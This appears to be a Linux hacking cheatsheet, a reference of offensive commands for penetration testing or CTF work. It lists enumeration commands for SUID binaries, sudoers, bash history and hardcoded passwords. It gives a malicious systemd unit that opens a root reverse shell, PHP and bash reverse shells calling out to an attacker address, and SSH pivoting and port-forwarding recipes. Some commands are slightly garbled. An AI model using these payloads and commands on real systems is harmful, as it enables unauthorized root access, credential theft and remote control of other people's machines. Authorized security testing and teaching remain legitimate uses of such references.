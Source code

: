 # Linux Hacking Cheatsheet

## Automated Enumeration Scripts

`wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`
`wget https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh`
`wget https://raw.githubusercontent.com/sleventyeleven/linuxprivchecker/master/linuxprivchecker.py # python2`
`wget

<!--
##################################################################
##################################################################
-->

## System Enumeration

### Search for keyword

`grep -ri "word" /`
`grep -ri "search term` /| grep -Fv "excluded term"

### Find SUID bits

`find / -perm -u=s -type f 2>/dev/null`
`find / -user root -perm -4000 -exec ls -ldb {} \;`

### Find human readable strings in binary

`strings /usr/bin/menu`

### Services running as Root

`ps aux | grep root`

### Show System Distribution and Version

`cat /etc/issue; cat /etc/*-release; cat /etc/lsb-release; cat /etc/redhat-release;`

### Show System Architecture

`cat /proc/version; uname -a; uname -mrs; rpm -q kernel; dmesg | grep Linux; ls /boot | grep vmlinuz-; file /bin/ls; cat /etc/lsb-release`

### Find Writable Config Files

`find /etc/ -writable -type f 2>/dev/null`

### Find Miss-configured Services

`cat /etc/syslog.conf; cat /etc/chttp.conf; cat /etc/lighttpd.conf; cat /etc/cups/cupsd.conf; cat /etc/inetd.conf; cat /etc/apache2/apache2.conf; cat /etc/my.conf; cat /etc/httpd/conf/httpd.conf; cat /opt/lampp/etc/httpd.conf; ls -aRl /etc/ | awk '$1 ~ /^.*r.*/`

### Show Scheduled Cron Jobs

`crontab -l; ls -alh /var/spool/cron; ls -al /etc/ | grep cron; ls -al /etc/cron*; cat /etc/cron*; cat /etc/at.allow; cat /etc/at.deny; cat /etc/cron.allow; cat /etc/cron.deny`

### Find Hardcoded Passwords

`grep -i user [filename]`
`grep -i pass [filename]`
`grep -C 5 "password" [filename]`
`find . -name "*.php" -print0 | xargs -0 grep -i -n "var $password"`

### Find World Readable/Writable Files

`echo "world-writeable folders"; find / -writable -type d 2>/dev/null; echo "world-writeable folders"; find / -perm -222 -type d 2>/dev/null; echo "world-writeable folders"; find / -perm -o w -type d 2>/dev/null; echo "world-executable folders"; find / -perm -o x -type d 2>/dev/null; echo "world-writeable & executable folders"; find / \( -perm -o w -perm -o x \) -type d 2>/dev/null;`

### Find World Readable Files

`find / -xdev -type d \( -perm -0002 -a ! -perm -1000 \) -print`

<!--
##################################################################
##################################################################
-->

## User Enumeration

### Show Groups Users In

`id`

### Show Users Sudo Permissions

`sudo -l`

### List All Users Home Directories

`ls -ahlR /root/; ls -ahlR /home/`

### Show Users Bash History

`cat ~/.bash_history; cat ~/.nano_history; cat ~/.atftp_history; cat ~/.mysql_history; cat ~/.php_history`

### Show Users Mail

`cat ~/.bashrc; cat ~/.profile; cat /var/mail/root; cat /var/spool/mail/root`

### Find Other Users

`id; who; w; last; cat /etc/passwd | cut -d: -f1; echo 'sudoers:'; cat /etc/sudoers; sudo -l`

<!--
##################################################################
##################################################################
-->

## Network Enumeration

### Show Connections

`netstat -ano`

<!--
##################################################################
##################################################################
-->

## Privilage Escalation

### Priv Esc systemctl with user access

_Create protection.service file in writable directory_

```
[Unit]
Discription=Does very important stuff mmmkay

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/YOURIP/YOURPORT 0>&1'

[Install]
WantedBy=multi-user.target
```

<!--
##################################################################
##################################################################
-->

## Shells

### Escaping no tty shell

`/usr/bin/script -qc /bin/bash /dev/null`

_try ctrl + z_

`stty raw -echo`

`fg`

`export TERM=xterm #autocomplete`

_or_

`SHELL=/bin/bash script -q /dev/null`

`Ctrl-Z`

`stty raw -echo`

`fg`

`reset`

`xterm`

### PHP reverse shell

```
<?php
exec("/bin/bash -c 'bash -i > /dev/tcp/172.30.10.210/443 0>&1'");
```

### Bash Reverse Shell

`bash-c'bash -i >& /dev/tcp/<your_ip>/4444 0>&1'`

<!--
##################################################################
##################################################################
-->

## Useful Commands

### Grep IPs out of file

`grep -E -o "([0-9]{1,3}[\.]){3}[0-9]{1,3}" file.txt`

### Add Directory to PATH

export PATH=/tmp:$PATH

### Edit Wifi Connections

`nmtui`

_or_

`nmcli`

### Spin up webserver

`python -m SimpleHTTPServer 80`

### SSH Port Forwarding

`ssh -D localhost:9999 -f -N root@172.30.72.97 -p 40384`

**\*edit proxychains .conf file to connect over socks5 127.0.0.1 9999**

_or_

~C "if you already have an SSH session"

-R 8081:172.24.0.2:80 (on my Kali machine listen on 8081, get it from 172.24.0.2:80)
<KALI 10.1.1.1>:8081<------------<REMOTE 172.24.0.2>:80
Now you can access 172.24.0.2:80, which you didn't have direct access to

-L 8083:127.0.0.1:8084 (on your machine listen on 8083, send it to my Kali machine on 8084)
<KALI 127.0.0.1>:8084<------------<REMOTE 10.1.1.230>:8083<------------<REMOTE X.X.X.X>:XXXX
run nc on port 8084, and if 10.1.1.230:8083 receives a reverse shell, you will get it

### sshuttle

`sshuttle --dns -vvr user@targetip -x targetip 0/0`

### Pull Hash from Password Protected Zip

`zip2john file.zip > hash`

